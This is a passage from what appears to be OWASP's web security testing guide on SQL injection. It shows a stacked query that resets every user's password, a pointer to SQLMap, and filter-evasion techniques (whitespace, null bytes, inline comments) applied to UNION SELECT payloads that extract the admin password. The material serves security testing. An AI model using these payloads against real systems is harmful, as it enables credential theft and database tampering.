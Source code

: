 ```sql
1 from users; update users set password = 'password'; select *
```

This will result in the report running and all users’ passwords being updated.

#### Automated Exploitation

Most of the situation and techniques presented here can be performed in a automated way using some tools. In this article the tester can find information how to perform an automated auditing using [SQLMap](https://wiki.owasp.org/index.php/Automated_Audit_using_SQLMap)

### SQL Injection Signature Evasion Techniques

The techniques are used to bypass defenses such as Web application firewalls (WAFs) or intrusion prevention systems (IPSs). Also refer to [https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

#### Whitespace

Dropping space or adding spaces that won't affect the SQL statement. For example

```sql
or 'a'='a'

or 'a'  =    'a'
```

Adding special character like new line or tab that won't change the SQL statement execution. For example,

```sql
or
'a'=
        'a'
```

#### Null Bytes

Use null byte (%00) prior to any characters that the filter is blocking.

For example, if the attacker may inject the following SQL

`' UNION SELECT password FROM Users WHERE username='admin'--`

to add Null Bytes will be

`%00' UNION SELECT password FROM Users WHERE username='admin'--`

#### SQL Comments

Adding SQL inline comments can also help the SQL statement to be valid and bypass the SQL injection filter. Take this SQL injection as example.

`' UNION SELECT password FROM Users WHERE name='admin'--`

Adding SQL inline comments will be.

`'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`
